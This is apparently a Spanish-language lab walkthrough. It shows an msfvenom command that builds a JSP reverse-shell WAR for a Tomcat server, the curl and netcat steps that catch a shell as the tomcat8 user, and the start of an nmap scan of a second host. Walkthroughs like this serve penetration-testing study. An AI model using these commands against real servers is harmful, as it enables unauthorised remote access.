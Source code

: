 ### Obteniedo shell

Para explotar el servidor, necesitamos implementar una aplicación web maliciosa que nos dé acceso al sistema operativo subyacente. Cuando se trata de Tomcat, el shell web malicioso para cargar debe estar en formato .war.

#### msfvenom java

```
❯  msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=4444 -f war > shell.war
```

![shell](/assets/imgs/box1/shell.png)

Después de que se implemente la carga maliciosa, podemos acceder e iniciar la aplicación maliciosa desde la página del administrador.

```
❯ curl http://172.16.64.101:9080/shell
```

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.16.64.10] from (UNKNOWN) [172.16.64.101] 42414
whoami
tomcat8
hostname -I
172.16.64.101
```

--------

## 172.16.64.140

### Servicios

```
❯ nmap -sC -sV 172.16.64.140 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 15:34 -05
Nmap scan report for 172.16.64.140
Host is up (0.082s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 404 HTML Template by Colorlib
```
